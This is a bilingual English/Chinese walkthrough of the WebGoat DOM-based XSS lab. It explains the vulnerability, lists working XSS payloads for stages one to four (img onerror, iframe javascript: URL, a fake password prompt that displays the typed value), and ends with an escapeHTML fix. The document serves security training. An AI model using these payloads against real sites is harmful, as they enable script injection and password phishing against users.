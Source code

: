 # LAB_DOM-Based_cross-site_scripting
## 技术概念或主题（Concept / Topic To Teach）
The Document Object Model (DOM) presents an interesting problem from a security standpoint. It allows the content of a web page to be dynamically modified, but that can be abused by attackers during a malicious code injection. XSS, a type of malicious code injection, can occur when unvalidated user input is used directly to modify the content of a page on the client side. 

文档对象模型（DOM）从安全的角度展现了一个有趣的问题。它允许动态修改网页内容，但是这可以被攻击者用来进行恶意代码注入攻击。XSS，一种恶意代码注入，一般会发生在未经验证的用户的输入直接修改了在客户端的页面内容的情况下。
## 技术原理（How It works）
HTML DOM 实体中可随时插入新的 HTML 语句或 JavaScript 语句，因此很容易被恶意代码利用，从而用来改变页面显示内容或执行恶意代码。

HTML 标记语言中很多标签的特殊属性参数中允许插入 JS 代码，如：IMG/IFRAME 等。
## 总体目标（General Goals）
For this exercise, your mission is to use this vulnerability to inject malicious code into the DOM. Then in the last stage, you will correct the flaws in the code to address the vulnerability. 

在这个练习中，您的任务是利用此漏洞将恶意代码注入到 DOM，然后在最后阶段，通过修改代码来修复这个缺陷，从而解决该漏洞。
## 操作方法（Solutions）
### STAGE 1
![](https://github.com/Anthem9/vnote/raw/master/vnotebook/WebGoat/AJAX_Security/_v_images/_1524707693_10761.png)

* Enter "``<IMG SRC="images/logos/owasp.jpg"/>``" and submit the solution.
### STAGE 2
![](https://github.com/Anthem9/vnote/raw/master/vnotebook/WebGoat/AJAX_Security/_v_images/_1524707764_13125.png)

*  Enter "``<img src=x onerror=;;alert('XSS') />``" and submit the solution.
### STAGE 3
![](https://github.com/Anthem9/vnote/raw/master/vnotebook/WebGoat/AJAX_Security/_v_images/_1524707874_18154.png)

* Enter "``<IFRAME SRC="javascript:alert('XSS');"></IFRAME>``" and submit the solution.
### STAGE 4
![](https://github.com/Anthem9/vnote/raw/master/vnotebook/WebGoat/AJAX_Security/_v_images/_1524708069_20706.png)

*  Enter "``Please enter your password:<BR><input type = "password" name="pass"/><button onClick="javascript:alert('I have your password: ' + pass.value);">Submit</button><BR><BR><BR><BR><BR><BR><BR><BR> <BR><BR><BR><BR><BR><BR><BR><BR>``" and submit the solution.
### STAGE 5
![](https://github.com/Anthem9/vnote/raw/master/vnotebook/WebGoat/AJAX_Security/_v_images/_1524726932_17994.png)
* Modify ``DOMXSS.js``, add ``escapeHTML()`` in ``name``, ie ``escapeHTML(name)``, then save it.
![](https://github.com/Anthem9/vnote/raw/master/vnotebook/WebGoat/AJAX_Security/_v_images/_1524726820_7375.png)


